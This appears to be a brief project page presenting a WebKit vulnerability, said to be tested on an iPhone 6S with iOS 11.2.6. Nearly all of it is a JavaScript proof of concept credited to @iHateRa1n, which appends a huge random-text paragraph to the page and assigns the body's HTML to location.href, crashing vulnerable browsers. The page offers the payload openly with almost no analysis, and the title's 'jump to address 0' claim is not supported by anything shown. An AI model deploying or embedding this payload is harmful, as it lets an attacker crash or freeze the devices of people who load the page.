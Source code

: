 # WebKit jump to address 0 via DOM nodes + location.href

WebKit has a new vulnerability; and it has been tested on the iPhone 6S (iOS 11.2.6). 

It works by appending a large p tag to the DOM, then flowing the data into location.href. 

PoC (@iHateRa1n):

```javascript
function rndchr(){
    return String.fromCharCode(Math.floor(Math.random()*255));
};
n=1024;
k=document.createElement("p");
l=0;
kl="";
while(l<n){
    kl=kl+rndchr();
    l++;
}
s=document.createTextNode((kl).repeat(16384));
k.appendChild(s);
document.body.appendChild(k);
location.href=document.body.innerHTML;
```

discovered and exploited by @iHateRa1n. 

PS-2018-8842
